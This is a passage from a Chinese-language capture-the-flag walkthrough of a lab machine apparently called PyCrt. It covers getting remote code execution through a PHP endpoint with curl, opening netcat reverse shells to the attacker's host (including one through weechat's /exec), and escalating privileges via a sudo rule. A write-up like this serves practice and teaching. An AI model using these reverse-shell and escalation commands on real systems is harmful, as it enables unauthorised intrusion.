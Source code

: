 使用 `curl` 发送构造好的POST请求，成功验证RCE。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -X POST --data 'auth=LetMeIn123!' --data-urlencode "payload=klmOk12Y" http://192.168.205.131/ShadowSec/bydataset.php
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)</pre>
```

接下来，构造反弹Shell的Payload，在本地Kali开启监听后，成功获取 `www-data` 用户的交互式Shell。

**本地监听:**

```bash
nc -lvnp 8888
```

**构造并执行Payload:**

```bash
# Payload: rev(base64('cmd:busybox nc 192.168.205.128 8888 -e /bin/bash'))
curl -X POST --data 'auth=LetMeIn123!' --data-urlencode "payload=oNXY..." http://...
```

# **三、权限提升**

## **1. www-data -> chatlake**

获取初步Shell后，执行 `sudo -l` 查看当前用户的 `sudo` 权限。

```bash
www-data@PyCrt:/tmp$ sudo -l
...
User www-data may run the following commands on PyCrt:
    (chatlake) NOPASSWD: /usr/bin/weechat
```

发现 `www-data` 用户可以以 `chatlake` 用户的身份，免密运行终端IRC客户端 `weechat`。这是一个提权路径。

1. 首先稳定当前shell，使其成为一个功能完整的TTY。

2. 执行提权命令，启动`weechat`。

   ```bash
   sudo -u chatlake /usr/bin/weechat
   ```

3. 在 `weechat` 客户端内部，利用其 `/exec` 功能执行命令，反弹一个新的shell。

   ```
   /exec busybox nc 192.168.205.128 9999 -e /bin/bash
   ```

4. 在本地 `9999` 端口成功接收到 `chatlake` 用户的shell。

## **2. chatlake -> pycrtlake**

获取 `chatlake` 权限后，再次执行 `sudo -l`。
